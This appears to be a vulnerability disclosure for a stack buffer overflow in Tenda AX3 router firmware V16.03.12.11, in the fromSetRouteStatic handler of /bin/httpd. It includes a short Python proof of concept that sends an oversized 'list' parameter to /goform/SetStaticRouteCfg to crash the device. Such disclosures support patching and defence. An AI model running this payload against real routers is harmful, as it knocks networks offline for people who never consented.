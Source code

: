 Information
===========

**Vendor of the products**: Tenda <br>

**Vendor's website**: https://www.tenda.com.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: Tenda AX3 <br>

**Affected firmware version**: V16.03.12.11 <br>

**Firmware download address**: https://www.tenda.com.cn/download/detail-3476.html <br>

Overview
===========

**Tenda AX3 V16.03.12.11** has a **stack buffer overflow** vulnerability detected at function **fromSetRouteStatic**. This vulnerability allows attackers to cause a Denial of Service (DoS) via the **list** parameter . <br>

Vulnerability details
=====================
The vulnerability is detected at **/bin/httpd** <br>

In the function **fromSetRouteStatic**, the content obtained by program through parameter **list** given by http is passed to variable **v4**. Variable **v4** enters the function **save_staticroute_data** as a parameter, and a stack overflow vulnerability exists within **save_staticroute_data** <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/8.png) <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/9.png) <br>
<br>

Proof of Code
====================
```python
from pwn import *
import requests

url = "http://192.168.0.1/goform/SetStaticRouteCfg"

payload = "a"*0x1000
data = {
    "list": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

Attack Demo
========
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/10.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/11.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/12.png)
